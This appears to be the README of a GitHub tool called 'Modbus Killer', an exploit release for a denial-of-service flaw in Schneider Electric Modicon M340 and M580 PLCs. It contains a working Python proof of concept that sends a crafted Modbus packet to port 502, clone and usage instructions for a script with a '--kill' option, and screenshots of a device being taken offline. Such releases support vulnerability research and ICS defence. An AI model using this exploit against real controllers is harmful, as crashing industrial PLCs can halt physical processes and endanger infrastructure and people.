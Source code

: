 #  [Tool] Modbus Killer
## [Schneider] Dos Modicon via Modbus Injection

PLC Modicon line ("m340" & "m580") suffer a denial of services upon receiving a simple request to the "modbus" protocol.


	[*] Exploit Title:       "Dos Modicon via Modbus Injection" 
	[*] CVE:                 2018-???? <-- soon !!!
	[*] CVSS Base Score v3:  8.6 / 10
	[*] CVSS Vector String:  AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H  
	[*] Date:                2/01/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              Schneider Electric
	[*] devices(tested):     PLC Modicon m340 (v2.0 > v2.8) & modicom m580


![m340](screenshot/m340.png) ![m580](screenshot/m580.jpg)

### Exploit:

´´´
	import socket 

	client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	client.connect(("192.168.0.101",502)) 
	client.send( "\x44\x62\x00\x00\x00\x06\x00\x5a\x00\x20\x00\x00") 
	client.close()

´´´


***

# TOOL: "Modbus Killer"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/modbusKiller.git
	usr@pwn:~$ cd modbusKiller

## help

	usr@pwn:~/$ python mdKiller.py --help

	usage: mdKiller.py [-h] [-v] [--sid SLAVEID] --host HOST [--port PORT]
                   [--check] [--kill]

	[+] DOS Modicon via Modbus Injection. ( CVE: 2018-???? )

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --sid SLAVEID  Slave ID (default 00)
	  --host HOST    Host
	  --port PORT    Port (default 502)
	  --check        Show device info
	  --kill         Check availability

	[+] Demo: mdKiller.py --sid 00 --host <target> [--check|--kill ]

***

## POCs:

[+] Poc device VULN:

	[*] CHECK

![m340](screenshot/1_check.png) 	
	

	[*] KILL

![m340_kill](screenshot/2_kill.png)


	[*] RE-CHECK

![m340_rc](screenshot/3_reCheck.png) 	



[+] Poc device NO VULN:

	[*] CHECK

![m340_ck](screenshot/noVuln/1_check_a.png) 	
	

	[*] KILL

![m340_kill](screenshot/noVuln/2_kill_a.png) 	

